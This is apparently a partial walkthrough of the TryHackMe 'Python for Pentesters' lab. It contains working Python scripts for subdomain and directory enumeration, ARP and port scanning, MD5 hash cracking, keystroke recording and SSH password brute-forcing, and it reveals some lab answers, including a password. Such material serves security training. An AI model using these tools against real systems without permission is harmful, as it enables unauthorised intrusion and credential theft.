# [Python for Pentesters](https://tryhackme.com/room/pythonforcybersecurity)



## Task 1 - Introduction

Python can be the most powerful tool in your arsenal as it can be used to build almost any of the other penetration testing tools. The scope of this module does not allow us to go into too many details on Python. Still, we will cover several key areas that will be useful during engagements and help you better understand Python.

Please complete the “[Python Basics](https://tryhackme.com/room/pythonbasics)” room before proceeding, as this room will not go over the basic usage and programming features of the Python language.

We are not learning to become a developer; our objective is to become a penetration tester. This room will give you pointers on which you can build and improve. Examples are given on a "one of each" basis, and no code should be considered as "the only and correct way" to reach a solution.  Our goal is then to build quick and effective tools that will help us in our daily tasks.

Throughout this room, you will see how to:

* Use Python to enumerate the target's subdomain
* Build a simple keylogger
* Scan the network to find target systems
* Scan any target to find the open ports
* Download files from the internet
* Crack hashes

Any code you will find in this section can be compiled using simple tools such as PyInstaller and sent to the target system.

**Notice**: A wordlist that will be useful to complete tasks related to the target system associated with this room can be found attached to the next task. The wordlist was also added to the AttackBox and is located in the following path /usr/share/wordlists/PythonForPentesters/wordlist2.txt

To access the machine you start on this task, you need to either:

* Use OpenVPN - Go to the [access page](https://tryhackme.com/access) and connect to our network via OpenVPN. This is important to do before you can access the machine. 
* Use AttackBox - (Recommended) Start the AttackBox (blue button at the top of the page) and write your Python scripts through the browser.

### Answer the questions below

* What other tool can be used to convert Python scripts to Windows executables?

	`Py2exe`

* Start the machine on this task

## Task 2 - Subdomain Enumeration

Python gives us an easy way to automate tasks during a penetration test. Any tasks that you have to perform regularly are worth automating. While the automation process comes with a learning curve, the mid and long-term gains are worth it.

Finding subdomains used by the target organization is an effective way to increase the attack surface and discover more vulnerabilities.

The script will use a list of potential subdomains and prepends them to the domain name provided via a command-line argument.

The script then tries to connect to the subdomains and assumes the ones that accept the connection exist.

```
import requests 
import sys 

sub_list = open("subdomains.txt").read() 
subdoms = sub_list.splitlines()

for sub in subdoms:
    sub_domains = f"http://{sub}.{sys.argv[1]}" 

    try:
        requests.get(sub_domains)
    
    except requests.ConnectionError: 
        pass
    
    else:
        print("Valid domain: ",sub_domains)   
```

As you can see, the script will search for a file named "subdomains.txt". The simplest way is to use a wordlist located in the same directory as the Python script, but any wordlist can be used. The wordlist should have possible subdomains listed one per line as shown below:



You don't need to download the wordlist attached to this task if you're using the AttackBox as it can be found  under: /usr/share/wordlists/PythonForPentesters/wordlist2.txt

### Answer the questions below

* What other protocol could be used for subdomain enumeration?

	`DNS`

* What function does Python use to get the input from the command line?

	`sys.argv`

## Task 3 - Directory Enumeration

As it is often pointed out, reconnaissance is one of the most critical steps to the success of a penetration testing engagement. Once subdomains have been discovered, the next step would be to find directories.

The following code will build a simple directory enumeration tool.

```
import requests 
import sys 

sub_list = open("wordlist.txt").read() 
directories = sub_list.splitlines()

for dir in directories:
    dir_enum = f"http://{sys.argv[1]}/{dir}.html" 
    r = requests.get(dir_enum)
    if r.status_code==404: 
        pass
    else:
        print("Valid directory:" ,dir_enum)
```

At first glance, you will certainly notice the similarities with the subdomain enumeration script. This script takes an approach based on a for loop and passes all "404" responses.



Make sure you have downloaded the wordlist [file](./files/wordlist2.txt) from Task 2 before proceeding with the following questions. The wordlist was also added to the AttackBox and is located in the following path /usr/share/wordlists/PythonForPentesters/wordlist2.txt

### Create script

* Update the script like this below:

    

* Run script

    

### Answer the questions below

* How many directories can your script identify on the target system? (extensions are .html)

	`4`

* What is the location of the login page?

	`private.html`

    

* Where did you find a cryptic hash?

	`apollo.html`

    

* Where are the usernames located?

	`surfer.html`

    

* What is the password assigned to Rabbit?

	`LOUSYRABBO`

## Task 4 - Network Scanner

Python can be used to build a simple ICMP (Internet Control Message Protocol) scanner to identify potential targets on the network. However, ICMP packets can be monitored or blocked as the target organization would not expect a regular user to “ping a server”. On the other hand, systems can be configured to not respond to ICMP requests. These are the main reasons why using the ARP (Address Resolution Protocol) to identify targets on the local network is more effective.

The code:

```
from scapy.all import *

interface = "eth0"
ip_range = "10.10.X.X/24"
broadcastMac = "ff:ff:ff:ff:ff:ff"

packet = Ether(dst=broadcastMac)/ARP(pdst = ip_range) 

ans, unans = srp(packet, timeout =2, iface=interface, inter=0.1)

for send,receive in ans:
        print (receive.sprintf(r"%Ether.src% - %ARP.psrc%"))     
```



If you are using the AttackBox, you will need to install Scapy first. This can easily be done using the "`apt install python3-scapy`" command.



### Answer the questions below

* What module was used to create the ARP request packets?

	``

* Which variable would you need to change according to your local IP block?

	``

* What variable would you change to run this code on a system with the network interface named ens33?

	``

## Task 5 - Port Scanner

In this task, we will be looking at a script to build a simple port scanner.

The code:

``` 
import sys
import socket
import pyfiglet


ascii_banner = pyfiglet.figlet_format("TryHackMe \n Python 4 Pentesters \nPort Scanner")
print(ascii_banner)


ip = '192.168.1.6' 
open_ports =[] 

ports = range(1, 65535)


def probe_port(ip, port, result = 1): 
  try: 
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    sock.settimeout(0.5) 
    r = sock.connect_ex((ip, port))   
    if r == 0: 
      result = r 
    sock.close() 
  except Exception as e: 
    pass 
  return result


for port in ports: 
    sys.stdout.flush() 
    response = probe_port(ip, port) 
    if response == 0: 
        open_ports.append(port) 
    

if open_ports: 
  print ("Open Ports are: ") 
  print (sorted(open_ports)) 
else: 
  print ("Looks like no ports are open :(")
```

To better understand the port scanning process, we can break down the code into several sections: 

**Importing modules that will help the code run:**

```
import sys
import socket
```

**Modules could also be imported with a single line using**

```
import socket,sys
```

**Specifying the target:**

```
ip = '192.168.1.6' 
```

**An empty “open_ports” array that will be populated later with the detected open ports:**

```
open_ports =[] 
```

**Ports that will be probed:**

```
ports = range(1, 65535)
```

For this example, we have chosen to scan all TCP ports using the range() function. However, if you are looking for a specific service or want to save time by scanning a few common ports, the code could be changed as follows;

```
ports = { 21, 22, 23, 53, 80, 135, 443, 445}
```

The list above is relatively small. As we are trying to keep a rather low profile, we have limited the list to ports that will likely be used by systems connected to a corporate network.

Getting the IP address of the domain name given as target. The code also works if the user directly provides the IP address.

```
ip = socket.gethostbyname(host)
```

Tries to connect to the port:



This code is followed by a for loop that iterates through the specified port list:



Below are the results of the port scanning script run against a random target.



Of course, I will be the first one to admit the ASCII art banner was a bit much. The banner will require Pyfiglet to be imported. If you are using the AttackBox, you can easily install pyfiglet using the "apt install python3-pyfiglet" command.


If you wish to remove the banner you can simply delete the following lines:

```
ascii_banner = pyfiglet.figlet_format("TryHackMe \n Python 4 Pentesters \nPort Scanner")
print(ascii_banner)
```

### Answer the questions below

* What protocol will most likely be using TCP port 22?
	
	``

* What module did we import to be able to use sockets?

	``

* What function is likely to fail if we didn't import sys?

	``
	
* How many ports are open on the target machine?

	``

* What is the highest port number open on the target system?

	``

## Task 6 - File Downloader

Wget on Linux systems or Certutil on Windows are useful tools to download files.

Python can also be used for the same purpose.

The code:

``` 
import requests

url = 'https://assets.tryhackme.com/img/THMlogo.png'
r = requests.get(url, allow_redirects=True)
open('THMlogo.png', 'wb').write(r.content)
```

This short piece of code can easily be adapted to retrieve any other type of file, as seen below:

```
import requests

url = 'https://download.sysinternals.com/files/PSTools.zip'
r = requests.get(url, allow_redirects=True)
open('PSTools.zip', 'wb').write(r.content)  
```

PSexec allow system administrators to run commands on remote Windows systems. We see that PSexec is also used in cyber attacks as it is usually not detected by antivirus software. You can learn more about PSexec [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) and read [this](https://www.praetorian.com/blog/threat-hunting-how-to-detect-psexec/) blogpost about its use by attackers.

### Answer the questions below

* What is the function used to connect to the target website?

	``

* What step of the Unified Cyber Kill Chain can PSexec be used in?

	``

## Task 7 - Hash Cracker

A Hash is often used to safeguard passwords and other important data. As a penetration tester, you may need to find the cleartext value for several different hashes. The Hash library in Python allows you to build hash crackers according to your requirements quickly.

Hashlib is a powerful module that supports a wide range of algorithms.


Leaving aside some of the more exotic ones you will see in the list above, hashlib will support most of the commonly used hashing algorithms.

**Hash Cracker**

```
import hashlib
import pyfiglet

ascii_banner = pyfiglet.figlet_format("TryHackMe \n Python 4 Pentesters \n HASH CRACKER for MD 5")
print(ascii_banner)

wordlist_location = str(input('Enter wordlist file location: '))
hash_input = str(input('Enter hash to be cracked: '))

with open(wordlist_location, 'r') as file:
    for line in file.readlines():
        hash_ob = hashlib.md5(line.strip().encode())
        hashed_pass = hash_ob.hexdigest()
        if hashed_pass == hash_input:
            print('Found cleartext password! ' + line.strip())
            exit(0)
```

This script will require two inputs: the location of the wordlist and the hash value.

As you probably know, hash values can not be cracked as they do not contain the cleartext value. Unlike encrypted values that can be "reversed" (e.g. decrypted), cleartext values for hashes can only be found starting with a list of potential cleartext values. A simplified process can be seen below;

1. You retrieve the hash value "eccbc87e4b5ce2fe28308fd9f2a7baf3" from a database, which you suspect is the hash for a number between 1 and 5.
2. You create a file with possible cleartext values (numbers from 1 to 5)
3. You generate a list of hashes for values in the cleartext list (Hash values for numbers between 1 and 5)
4. You compare the generated hash with the hash value at hand (Matches hash value of the number 3)

Obviously, a more effective process can be designed, but the main principle will remain identical.

The script below follows an approach close to the one described above;

1. Asks for the location of a wordlist
2. Asks for the hash to be cracked
3. Reads values from the wordlist (one per line)
4. Converts cleartext values to MD5 hash values
5. Compares the generated MD5 hash value with the value entered by the user

Below: The MD5 cracking script, including the absolutely optional and tacky ASCII art banner.



### Answer the questions below

* What is the hash you found during directory enumeration?

	``

* What is the cleartext value of this hash?

	``

* Modify the script to work with SHA256 hashes.

* Using the modified script find the cleartext value for 5030c5bd002de8713fef5daebd597620f5e8bcea31c603dccdfcdf502a57cc60

	``

## Task 8 - Keyloggers

Modules allow us to solve relatively difficult problems in a simple way.

A good example is the “keyboard” module, which allows us to interact with the keyboard.

If the “keyboard” module is not available on your system, we can use pip3 to install it.

`pip3 install keyboard`

Using the keyboard module, the following three lines of code would be enough to record and replay keys pressed:

```
import keyboard
keys = keyboard.record(until ='ENTER')
keyboard.play(keys)
```

“keyboard.record” will record the keys until ENTER is pressed, and “keyboard.play” will replay them. As this script is logging keystrokes, any edit using backspace will also be seen.

### Answer the questions below

* What package installer was used?

	``
	
* What line in this code would you change to stop the result from being printed on the screen?
	
	``

## Task 9 - SSH Brute Forcing

The powerful Python language is supported by a number of modules that easily extend its capabilities. Paramiko is an SSHv2 implementation that will be useful in building SSH clients and servers.

The example below shows one way to build an SSH password brute force attack script. As is often the case in programming, there rarely is a single correct answer for these kinds of applications. As a penetration tester, your usage of programming languages will be different for developers. While they may care about best practices and code hygiene, your goal will more often be to end with a code that works as you want it to.

By now, you should be familiar with the "try" and "except" syntax. This script has one new feature, "def". "Def" allows us to create custom functions, as seen below.  The "ssh_connect" function is not native to Python but built using Paramiko and the "paramiko.SSHClient()" function.

```
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```

Reading the code, you will notice several distinct components.

**Imports**: We import modules we will use inside the script. As discussed earlier, we will need Paramiko to interact with the SSH server on the target system. "Sys" and "os" will provide us with the basic functionalities needed to read a file from the operating system (our password list in this case). As we are using Paramiko to communicate with the SSH server, we do not need to import "socket". 



**Inputs**: This block will request input from the user. An alternative way to do this would be to accept the user input directly from the command line as an argument using "sys.argv[]".



**SSH Connection**: This section will create the "ssh_connect" function. Successful authentication will return a code 0, a failed authentication will return a code 1.



**Password list**: We then open the password file supplied earlier by the user and take each line as a password to be tried.



**Responses**: The script tries to connect to the SSH server and decides on an output based on the response code. Please note the response code here is the one generated by Paramiko and not an HTTP response code. The script exits once it has found a valid password.



As you will see, the scripts run slower than we would expect. To improve speed, you may want to look into threading this process.

**Make sure you have downloaded the wordlist file from Task 2 before proceeding with the following questions. The wordlist was also added to the AttackBox and is located in the following path /usr/share/wordlists/PythonForPentesters/wordlist2.txt**

### Answer the questions below

* What username starting with the letter "t" did you find earlier?
	
	``

* What is the SSH password of this user?

	``

* What is the content of the flag.txt file?

	``

## Task 10 - Extra challenges

Based on what we have covered in this room, here are a few suggestions about how you could expand these tools or start building your own using Python:

* Use DNS requests to enumerate potential subdomains
* Build the keylogger to send the capture keystrokes to a server you built using Python
* Grab the banner of services running on open ports
* Crawl the target website to download .js library files included
* Try to build a Windows executable for each and see if they work as stand-alone applications on a Windows target
* Implement threading in enumeration and brute-forcing scripts to make them run faster

### Answer the questions below

Read the above. 